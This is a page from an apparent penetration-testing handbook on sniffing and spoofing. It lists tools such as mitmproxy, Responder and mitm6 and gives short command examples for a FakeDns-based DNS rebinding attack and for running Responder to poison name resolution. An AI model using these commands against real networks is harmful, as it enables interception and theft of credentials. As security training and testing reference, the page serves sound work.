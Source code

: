 # Sniffing & Spoofing

## Table of Contents

- [Resources](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/09_sniffing_%26_spoofing.md#Resources)
- [FakeDns](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/09_sniffing_%26_spoofing.md#FakeDns)
- [Responder](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/09_sniffing_%26_spoofing.md#Responder)

## Resources

| Name | Description | URL |
| --- | --- | --- |
| mitmproxy | mitmproxy is an interactive, SSL/TLS-capable intercepting proxy with a console interface for HTTP/1, HTTP/2, and WebSockets. | https://github.com/mitmproxy/mitmproxy |
| Responder | IPv6/IPv4 LLMNR/NBT-NS/mDNS Poisoner and NTLMv1/2 Relay. | https://github.com/lgandx/Responder |
| mitm6 | mitm6 is a pentesting tool that exploits the default configuration of Windows to take over the default DNS server. | https://github.com/dirkjanm/mitm6 |

## FakeDns

> https://github.com/Crypt0s/FakeDns

### DNS Rebind Attack

```c
$ cat fake.conf
A <DOMAIN> 127.0.0.1 1%<LHOST>
```

#### Start the Server

```c
$ sudo python3 fakedns.py -c fake.conf --rebind
```

#### Test

```c
nslookup > server <LHOST>
Default server: <LHOST>
Address: <LHOST>#53
> <FAKE_DOMAIN>
Server:         <LHOST>
Address:        <LHOST>#53

Name:   <FAKE_DOMAIN>
Address: 127.0.0.1
*## server can't find <FAKE_DOMAIN>: NXDOMAIN
> <FAKE_DOMAIN>
Server:         <LHOST>
Address:        <LHOST>#53

Name:   <FAKE_DOMAIN>
Address: <LHOST>
*## server can't find <FAKE_DOMAIN>: NXDOMAIN
>
```

## Responder

> https://github.com/lgandx/Responder

```c
$ sudo responder -I <INTERFACE>
```
